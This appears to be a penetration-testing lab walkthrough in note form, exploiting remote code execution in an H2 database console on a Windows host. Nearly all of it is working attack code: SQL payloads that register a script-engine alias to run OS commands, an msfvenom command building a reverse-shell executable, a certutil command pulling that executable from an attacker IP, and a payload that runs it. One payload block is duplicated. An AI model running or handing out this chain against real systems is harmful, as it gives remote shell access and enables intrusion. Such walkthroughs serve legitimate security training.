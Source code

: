 https://www.exploit-db.com/exploits/49384
1 by 1, put in each SQL command into the text box and hit run.
Test to make sure RCE works with whoami:
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```
Look to bottom of window for response:
`jacko\tony`
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe > reverse64.exe
```
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.49.125/reverse64.exe C:\\Users\\tony\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```
![[1._rlwrap]]
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\tony\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```